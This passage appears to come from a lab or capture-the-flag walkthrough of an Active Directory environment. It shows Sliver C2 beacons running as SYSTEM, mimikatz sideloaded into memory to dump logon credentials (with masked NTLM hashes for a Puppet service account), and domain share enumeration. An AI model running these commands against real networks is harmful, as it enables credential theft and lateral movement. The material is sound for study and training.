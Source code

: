 This shows a new beacon as SYSTEM:

```terminal
sliver (puppet-mtls) > beacons

 ID         Name          Transport   Hostname   Username              Operating System   Last Check-In   Next Check-In
========== ============= =========== ========== ===================== ================== =============== ===============
 56d068c7   puppet-mtls   mtls        File01     PUPPET\Bruce.Smith    windows/amd64      15s             17s
 913973f8   puppet-mtls   mtls        File01     <err>                 windows/amd64      2s              30s
 15d1aae2   puppet-mtls   mtls        File01     NT AUTHORITY\SYSTEM   windows/amd64      2s              29s
```

From the new beacon we can now run mimikatz to dump credentials via the sideload functionality (sideload is essentially implementing a custom peloader to run pe files from memory):

```terminal
use 15d1aae2
sideload /home/xct/drop/mimikatz.exe "token::elevate privilege::debug sekurlsa::logonpasswords exit"

...
msv :	
	 [00000003] Primary
	 * Username : svc_puppet_win_t1
	 * Domain   : PUPPET
	 * NTLM     : 784c***
	 * SHA1     : e4b6***
	 * DPAPI    : abe7***
...
```

Besides the hashes of bruce and the machine itself, we also get the hash of a new user: `svc_puppet_win_t1`. This account is likely the account that puppet uses to execute commands on tier one windows servers. According to the AD data we gathered there is also a `svc_puppet_win_t0` and a  `svc_puppet_lin_t1` account.

One aspect we did not enumerate yet, is domain shares. So let's first do it from the system account (which is just a normal domain user as well - the machine account of the server):

```terminal
sa-netshares dc01

Share:
---------------------file01----------------------------------
ADMIN$
C$
files
IPC$

sa-netshares dc01

Share:
---------------------dc01----------------------------------
ADMIN$
C$
IPC$
it
NETLOGON
SYSVOL
```
